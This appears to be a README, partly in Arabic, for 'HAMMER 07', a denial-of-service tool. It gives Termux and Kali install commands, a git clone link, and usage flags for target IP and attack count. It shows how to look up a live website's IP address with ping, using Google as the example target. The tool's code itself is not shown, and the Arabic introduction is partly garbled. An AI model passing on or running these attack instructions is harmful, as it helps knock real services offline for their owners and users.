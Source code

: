 #HAMMER 07

![image]([https://www.google.com/url?sa=i&url=https%3A%2F%2Fhelp.mikrotik.com%2Fdocs%2Fpages%2Fviewpage.action%3FpageId%3D28606504&psig=AOvVaw3tP-Y9XnxF4LfVDiFT9SoJ&ust=1680820780492000&source=images&cd=vfe&ved=0CBAQjRxqFwoTCPiY977nk_4CFQAAAAAdAAAAABAR](https://help.mikrotik.com/docs/download/attachments/28606504/Untitled%20Diagram%20%281%29.jpg?version=1&modificationDate=1590666013808&api=v2))

 تعد هجمات حرمان (رفض الخدمة) من أكثر الهجمات شيوعًا على الإنترنت ، وتهدف إلى إعاقة خدمة ما عن طريق إرسال مجموعة الطلبات غير الصحيحة أو لخادم الويب الذي يستضيف الخدمة. تؤدي هذه النوبات إلى الفقر الذي يؤدي إلى ارتفاعه.
 
 ### install for termux  & kali linux !
 
 <code>apt update</code>
 
  <code> apt upgrade</code>
  
  <code>apt install python</code>
  
  <code>apt install git</code>
  
  <code>apt install dnsutils</code>
  
  <code>git clone https://github.com/MR-SHANKAR7/hammer07</code>
  ### تشغيل ادات 
  <code>cd hammer07</code>
  
  <code>python hammer07.py -s [ip Address] -t 135</code>
  
  
   -s : 
  
  عنوان ابي لمزود لخدمة
   -t : 
   
 
 عدد هجمات
 
   ### example 
   
   
<code> python hammer07.py -s 123.45.67.89 -t 135</code>

### 
طريقة استخراج عنوان  الايبي :


نستخرج عنوان لايبي لموقع كوكل


www.google.com

داخل terminal ندخل

ping www.google.com 



# shanakr skr 07 apps developers 
#### Do not use this tool for personal purposes
### They wait for new updates
#### Thank you
